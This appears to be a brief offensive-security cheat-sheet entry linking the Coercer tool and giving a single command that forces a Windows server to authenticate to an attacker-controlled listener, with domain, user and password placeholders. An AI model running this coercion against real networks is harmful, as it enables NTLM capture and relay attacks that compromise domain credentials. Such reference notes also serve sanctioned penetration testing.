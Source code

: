 ### Source
https://github.com/p0dalirius/Coercer

### Coerce a Windows server to authenticate on an arbitrary machine 
```
python3 Coercer.py -d <domain> -u <user> -p <password> --listener <responderLhost> --target <rhost>
```

